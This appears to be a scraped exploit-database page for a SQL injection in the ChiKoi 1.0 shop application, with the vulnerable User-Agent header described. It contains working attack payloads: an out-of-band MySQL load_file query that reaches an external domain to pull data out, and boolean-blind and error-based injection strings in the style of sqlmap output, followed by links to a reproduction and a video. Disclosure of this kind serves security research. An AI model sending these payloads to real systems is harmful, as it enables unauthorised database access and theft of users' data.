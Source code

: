 ```yaml
---
title: ChiKoi 1.0 SQL Injection Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38150&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-01-13
fetch_date: 2025-10-04T03:42:52.849322
---
```


# ChiKoi 1.0 SQL Injection Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for ChiKoi 1.0 SQL Injection Vulnerability

2023-01-12 | CVSS 0.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38150
## Title: ChiKoi-1.0 SQLi
## Author: nu11secur1ty
## Vendor: https://chikoiquan.tanhongit.com/
## Software: https://github.com/tanhongit/new-mvc-shop/releases/tag/v1.0
## Reference: https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/tanhongit/2023/ChiKoi

## Description:
The `User-Agent` HTTP header appears to be vulnerable to SQL injection attacks.
The payload '+(select
load_file('\\\\v3z9cjkbngnzrm7piruwhl6olfr8fzknbqzlmba0.glumar.com\\quv'))+'
was submitted in the User-Agent HTTP header.
This payload injects a SQL sub-query that calls MySQL's load_file
function with a UNC file path that references a URL on an external
domain.
The attacker can steal all information from this system and can
seriously harm the users of this system,
such as extracting bank accounts through which they pay each other, etc.

## STATUS: HIGH Vulnerability - CRITICAL

[+] Payload:

```MySQL
---
Parameter: User-Agent (User-Agent)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: Mozilla/5.0 (Windows; U; Windows NT 6.1; hu; rv:1.9.1.9)
Gecko/20100315 Firefox/3.5.9 (.NET CLR 3.5.30729)' WHERE 2474=2474 AND
9291=(SELECT (CASE WHEN (9291=9291) THEN 9291 ELSE (SELECT 4553 UNION
SELECT 6994) END))-- -

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or
GROUP BY clause (FLOOR)
    Payload: Mozilla/5.0 (Windows; U; Windows NT 6.1; hu; rv:1.9.1.9)
Gecko/20100315 Firefox/3.5.9 (.NET CLR 3.5.30729)' WHERE 4578=4578 AND
(SELECT 8224 FROM(SELECT COUNT(*),CONCAT(0x71706b7171,(SELECT
(ELT(8224=8224,1))),0x716a6a6271,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- VCWR
---
```
[+] Online:

```MySQL
---
Parameter: User-Agent (User-Agent)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.8.1)
Gecko/20060601 Firefox/2.0 (Ubuntu-edgy)' WHERE 8386=8386 AND
8264=(SELECT (CASE WHEN (8264=8264) THEN 8264 ELSE (SELECT 2322 UNION
SELECT 6426) END))-- -
---
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/tanhongit/2023/ChiKoi)

## Proof and Exploit:
[href](https://streamable.com/7x69yz)

## Time spent
`01:30:00`

## Writing an exploit
`00:05:00`
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)